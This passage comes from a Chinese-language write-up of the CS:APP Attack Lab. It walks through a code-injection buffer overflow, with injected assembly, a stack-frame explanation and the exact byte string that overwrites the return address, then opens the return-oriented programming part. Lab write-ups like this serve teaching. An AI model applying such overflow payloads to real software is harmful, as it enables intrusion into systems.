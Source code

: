 字节级表示为：

```assembly
Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

### 栈帧讲解

我们期望的栈帧应该是这样的：

![image-20220305101326911](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305101326911.png)

逻辑如下：

- `getbuf`执行`ret`，从栈中弹出返回地址，跳转到我们注入的代码
- 代码执行，先将存在`caller`的栈中的字符串传给参数寄存器`%rdi`，再将`touch3`的地址压入栈中
- 代码执行`ret`，从栈中弹出`touch3`指令，成功跳转

### Solution

我们的cookie`0x59b997fa`作为字符串转换为`ASCII`为：`35 39 62 39 39 37 66 61`

注入代码段的地址与上题一样，同样为``0x5561dc78``

由于在`test`栈帧中多利用了一个字节存放cookie，所以本题要输入56个字节。注入代码的字节表示放在开头，33-40个字节放置注入代码的地址用来覆盖返回地址，最后八个字节存放cookie的`ASCII` 。于是得到如下输入：

```shell
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![image-20220305102649568](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305102649568.png)

**攻击成功！**

`Part 1`就此完结啦！

# Part 2: Return-Oriented Programming

在第二部分中，我们要攻击的是`rtarget`，它的代码内容与第一部分基本相同，但是攻击它却比第一部分要难得多，主要是因为它采用了两种策略来对抗缓冲区溢出攻击

- 栈随机化。这段程序分配的栈的位置在每次运行时都是随机的，这就使我们无法确定在哪里插入代码
- 限制可执行代码区域。它限制栈上存放的代码是不可执行的。

看到这里，我不禁一头雾水，这下子该怎么攻击啊？
